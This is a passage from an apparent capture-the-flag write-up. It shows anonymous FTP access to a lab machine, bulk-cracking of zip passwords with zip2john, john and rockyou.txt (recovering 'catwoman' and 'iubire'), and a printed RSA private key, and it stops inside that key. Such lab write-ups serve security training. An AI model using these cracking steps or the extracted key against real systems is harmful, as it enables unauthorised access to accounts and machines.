## Exploitation

Connected to the target machine's FTP server and downloaded the files to Kali.  
`ftp anonymous@10.0.3.12`  
`mget *`

The zip files are password protected so I iterated through the zip file list, got the hashes of the passwords in PKZIP format, and then attempted to bruteforce each hash with john and the rockyou.txt wordlist:  
`for i in $(ls *.zip); do zip2john "$i">"$i.txt"; done;`  
`for i in $(ls *.zip.txt); do sudo john "$i" --wordlist=/usr/share/wordlists/rockyou.txt --format=pkzip; done;`
>[...]  
Using default input encoding: UTF-8  
Loaded 1 password hash (PKZIP [32/64])  
Will run 2 OpenMP threads  
Press 'q' or Ctrl-C to abort, almost any other key for status  
**catwoman         (cathrine.zip/id\_rsa)**  
1g 0:00:00:00 DONE (2021-10-14 14:59) 50.00g/s 204800p/s 204800c/s 204800C/s 123456..oooooo  
Use the "--show" option to display all of the cracked passwords reliably  
Session completed  
[...]  
Using default input encoding: UTF-8  
Loaded 1 password hash (PKZIP [32/64])  
Will run 2 OpenMP threads  
Press 'q' or Ctrl-C to abort, almost any other key for status  
**iubire           (tom.zip/id\_rsa)**  
1g 0:00:00:00 DONE (2021-10-14 14:59) 50.00g/s 204800p/s 204800c/s 204800C/s 123456..oooooo  
Use the "--show" option to display all of the cracked passwords reliably  
Session completed  

Unzipped the id_rsa identity file from tom.zip with the "iubire" password  
`unzip tom.zip`
>Archive:  tom.zip  
[tom.zip] id_rsa password:  
  inflating: id_rsa  

id_rsa contents:
>-----BEGIN RSA PRIVATE KEY-----  
MIIEowIBAAKCAQEA6/v83+Ih99kKEhLa9XL0H7ugQzx5tQMK8/DrzgGR7gWnkXgH  
GjyG+roZJyqHTEBi62/IyyiAxkX0Uh4NgEqh4LWQRy4dhc+bP6GYYrMezPiljzTp  
Sc15tN+6Txtx0gOb0LPttVemJoFXZ1wQsNivCvEzxSESGTGR5p2QUybMlk2dS2UC  
Mn6FvcHCcKyBRUK9udIh29wGo0+pnuRw2SrKY9PzidP6Ao3sxJrlAJ5+SQkA86ZV  
pIhAIZyQHX2frjEEiQgVbwzTLWP2ezMZp195cINiJcIAuTLp2hKZLTDqL/U9ncUs  
Y2qbFVqQQfn8078Wbe4NrUBU2rkMtz6iE+BWhwIDAQABAoIBAAhrKvBJvvB6m7Nd  
XNZYzYC8TtFXPPhKLX/aXm8w+yXEqd+0qnwzIJWdQfx1tfHwchb4G++zeDSalka/  
r7ed8fx0PbtsV71IVL+GYktTHIwvaqibOJ9bZzYerSTZU8wsOMjPQnGvuMuy3Y1g  
aXAFquj3BePIdD7V1+CkSlvNDItoE+LsZvdQQBAA/q648FiBzaiBE6swXZwqc4sR  
P1igsqihOdjaK1AvPd5BSEMZDNF5KpMqIcEz1Xt8UceCj/r5+tshg4rOFz2/oYOo  
ax+P6Dez7+PXzNz9d5Rp1a1dnluImvU+2DnJAQF1c/hccjTyS/05IXErKjFZ+XQH  
zgEz+EECgYEA/VjZ2ccViV70QOmdeJ/yXjysVnBy+BulTUhD640Cm8tcDPemeOlN  
7LTgwFuGoi+oygXka4mWT4BMGa5hubivkr3MEwuRYZaiq7OMU1VVkivuYkNMtBgC  
qlr2HghOxCthXWsThXWFSWVkiR8V4sbkRc3DvPRRl6m5B35TBhURADECgYEA7nSX  
pwb6rtHgQ5WNtl2wDcWNk8RRGWvY0Y0RsYwY7kk01lttpoHd4v2k2CzxU5xVeo+D  
nthqv26Huo8LT5AeCocWfP0I6BSUQsFO37m6NwXvDJwyNfywu61h5CDMt71M3nZi  
N2TkW0WzTFuQYppEfCXYjxoZEvqsDxON4KXnDDcCgYA09s9MdQ9ukZhUvcI7Bo0/  
4EVTKN0QO49aUcJJS0iBU4lh+KAn5PZyhvn5nOjPnVEXMxYm2TPAWR0PvWIW1qJ1  
9hHk5WU2VqyZYsbyYQOrtF1404MEn4RnIu8TJj95SWxogEsren8r8fOLqyEDMPtm  
EHdcWGN6ZnQVOfaXbe4I8QKBgQDE0uomjSU4TbZOMtDBOb3K8Ei3MrE6SYGzHjz/  
j0M41KZPVTJB4SoUZga+BQLBX+ZSfslGwR4DmylffRj5+FxDllOioX3LiskB/Ous  
0XH6XuR9RSRQ2Z3LnAaUNdqkwxUC/zZ8wMOY7wRbP60DJpDm5JpHLGSL/OsumpZe  
WrJGqwKBgB5E+zY/udYEndjuE0edYbXMsu1kQQ/w4oXIv2o2r44W3Wkbh9bvCgCJ  
mOGTmkqb3grpy4sp/5QQFtE10fh1Ll+BXsK46HE2pPtg/JHoXyeFevpLXi8YgYjQ  
22nBTFCyu2vcWKEQI21H7Rej9FGyFSnPedDNp0C58WPdEuGIC/tr  